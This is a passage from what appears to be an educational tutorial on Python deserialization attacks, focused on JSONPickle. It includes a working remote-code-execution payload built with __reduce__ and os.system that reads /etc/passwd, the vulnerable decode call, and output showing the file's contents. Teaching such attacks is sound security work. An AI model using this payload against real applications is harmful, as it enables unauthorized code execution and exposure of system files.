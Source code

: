 * * *

## Current State

There are no tools for Python deserialization attacks as popular as [PHPGGC](https://github.com/ambionics/phpggc) for PHP. However, the attack vectors are relatively simple and very well-documented.

As I mentioned in a previous section, `pickle` is the default serialization library that comes with Python. However, multiple other libraries offer serialization. These libraries include [JSONPickle](https://jsonpickle.github.io/) and [PyYAML](https://pyyaml.org/).

* * *

## JSONPickle

The technique for deserialization attacks in `JSONPickle` is essentially the same as for `Pickle`. In both cases, you will create a payload using the `object.__reduce__()` function. The resulting serialized object will just look a little different.

An example script of generating an RCE payload and the "vulnerable code" deserializing the payload can be seen below:

```python
import jsonpickle
import os

class RCE():
  def __reduce__(self):
    return os.system, ("head /etc/passwd",)

# Serialize (generate payload)
exploit = jsonpickle.encode(RCE())
print(exploit)

# Deserialize (vulnerable code)
jsonpickle.decode(exploit)

```

Running the example script results in proof of code execution:

```shell
python3 jsonpickle-example.py

{"py/reduce": [{"py/function": "posix.system"}, {"py/tuple": ["head /etc/passwd"]}]}
root:x:0:0:root:/root:/usr/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

```
